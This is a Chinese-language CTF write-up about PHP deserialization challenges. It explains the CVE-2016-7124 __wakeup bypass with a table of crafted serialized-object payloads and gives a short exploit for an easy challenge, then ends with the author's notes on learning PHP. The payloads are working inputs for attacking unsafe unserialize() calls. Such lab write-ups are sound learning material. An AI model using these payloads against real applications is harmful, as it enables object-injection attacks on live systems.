 拿正常的序列化物件 `O:4:"Flag":1:{s:3:"key";s:8:"deadbeef";}` 送回去會老實的觸發 `__wakeup()` 導致 flag 被覆寫得到 "You can not read the flag."

而 CVE-2016-7124 簡單來說就是當序列化物件中，物件的數量大於實際數量，就會因為系統處理不當無法解析此序列化物件而不執行 `__wakeup()`

以這題為例子

|Serialize|Bypass?1:0|
|:-|:-|
|O:4:"Flag":1:{s:3:"key";s:8:"deadbeef";}|0|
|O:4:"Flag":<font color="red">2</font>:{s:3:"key";s:8:"deadbeef";}|1|
|O:4:"Flag":<font color="red">0</font>:{s:3:"key";s:8:"deadbeef";}|0|
|O:4:"Flag":1:{s:<font color="red">4</font>:"key";s:8:"deadbeef";}|1|
|O:4:"Flag":1:{s:<font color="red">2</font>:"key";s:8:"deadbeef";}|1|
|O:4:"Flag":1:{s:3:"key";s:<font color="red">7</font>:"deadbeef";}|1|
|O:4:"Flag":1:{s:3:"key";s:<font color="red">9</font>:"deadbeef";}|1|

看到漏洞說明後，用表格中第二列的方式讓物件數量大於實際數量（實際只有一個字串，但我把它改成 2）就過了，接著又做了些測試，像是數量小於實際數量就不會過，但修改字串的長度或變數名稱的長度，無論是大於小於一樣都能在這題拿到 flag

### Deserialization 01

前面都被 BOSS 霸凌完後回到人畜無害的第一題

```php
<?php
    show_source(__FILE__);
    include "flag.php";

    $key = "N15RA";
    $input = $_GET["input"];
    if(unserialize($input) === $key)
        echo $flag;
?>
```

exploit:

```php
<?php
echo serialize('N15RA');
// s:5:"N15RA";
```

完工了~

## 彩蛋

在一個跟 php 不熟（沒寫過也沒什麼在打 CTF）、但對序列化 / 反序列化有基礎理解的情況下，除了獲得很多提示，終於跟 php 混熟了點 (?)，耗了一整個下午，感覺學最多的是程式語言基礎，從物件導向開始（繼承、封裝、多型），到逃避了很久沒弄懂的 `$this` 感覺跟 python 的 `self`、java 的 `.this` 有異曲同工之妙，順便認識了 Magic Methods 等等，會寫在最後表示督促自己要乖乖生出下一篇筆記，也就是這一整下午撇除掉 php 反序列問題而習得的東西，如果這樣的預告最後還是沒生出文章的話...
__~~那我會回來把這段刪掉~~__
